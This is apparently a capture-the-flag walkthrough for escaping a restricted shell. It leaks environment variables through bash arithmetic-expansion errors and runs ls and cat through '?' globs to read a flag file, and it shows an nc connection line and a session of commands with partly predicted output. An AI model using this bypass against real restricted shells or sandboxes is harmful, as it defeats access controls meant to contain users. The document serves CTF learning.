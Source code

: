 **Step 4: Find the `cat` command using globs**

Similar to finding `ls`, we find `cat` to read the flag file. `cat` is usually 3 letters.
*   `/bin/cat`: `/???/???`
*   `/usr/bin/cat`: `/???/???/???`

1.  Assign the glob to a variable: `CAT_CMD=/???/???` (try this first for `/bin/cat`)
2.  Test it: `$CAT_CMD "$?"`
3.  Observe the error. If it's `cat`, it should say:
    `cat: 0: No such file or directory`
    If not, try other globs (e.g., `CAT_CMD=/???/???/???` for `/usr/bin/cat`).

**Step 5: Read the flag file**

Once `CAT_CMD` is set to a working `cat` command and you have the glob for the flag file (e.g., `FLAG_GLOB=????????` for `flag.txt`):
1.  Execute `$CAT_CMD $FLAG_GLOB`
    `$CAT_CMD ????????`
This should print the content of the flag file to your terminal.

**Explanation of potential issues and assumptions:**
*   **Glob uniqueness:** This strategy assumes that globs like `/???/??` will either resolve to a single command or that the first command in the alphabetically sorted expansion list (which the shell will try to execute) is identifiable via its error message. For example, if `/???/??` expands to `/bin/ln /bin/ls /bin/sh`, the shell will try to run `/bin/ln` with `/bin/ls /bin/sh "$?"` as arguments. The error message from `ln` would indicate that `/???/??` didn't point to `ls` as the first program. CTF challenges often set up environments where simple globs work as expected for common commands.
*   **Shell behavior:** The `$((VAR))` leak and globbing behavior are standard in POSIX-compliant shells like bash, sh, dash, etc.
*   **`$""` vs `"$?"` as argument:** Using `"$?"` as a filename argument for testing commands like `ls` and `cat` is generally safe. `$?` expands to the exit code of the last command (a number), and `"$?"` ensures it's passed as a single argument (e.g., "0"). Files named "0" or "1" are unlikely to exist or be critical. `"$""` could also be used, representing an empty string argument.
*   **Path components:** The number of `?` in globs depends on the actual lengths of directory and command names (e.g. `bin` is 3 chars, `usr` is 3 chars, `ls` is 2, `cat` is 3). These are common lengths.

Let's try it:

```bash
# Connect to the server
# nc -nv 94.237.120.71 34065

# Step 1: Leak environment variables
Broken@Shell$ $((PWD))
# Output: bash: /app: syntax error: invalid arithmetic operator (error token is "/app")
# (So, PWD is /app)

Broken@Shell$ $((SHELL))
# Output: bash: /bin/bash: syntax error: invalid arithmetic operator (error token is "/bin/bash")
# (So, SHELL is /bin/bash)

Broken@Shell$ $((PATH))
# Output: bash: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin: syntax error: invalid arithmetic operator (error token is "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin")

# Step 2 & 3: Find ls and list files
Broken@Shell$ LS_CMD=/???/??
Broken@Shell$ $LS_CMD "$?"
# Output: ls: cannot access '0': No such file or directory
# (This confirms LS_CMD=/bin/ls is correct)

Broken@Shell$ $LS_CMD
# Output might show list of files, e.g.:
# flag_some_name_here.txt
# other_file
```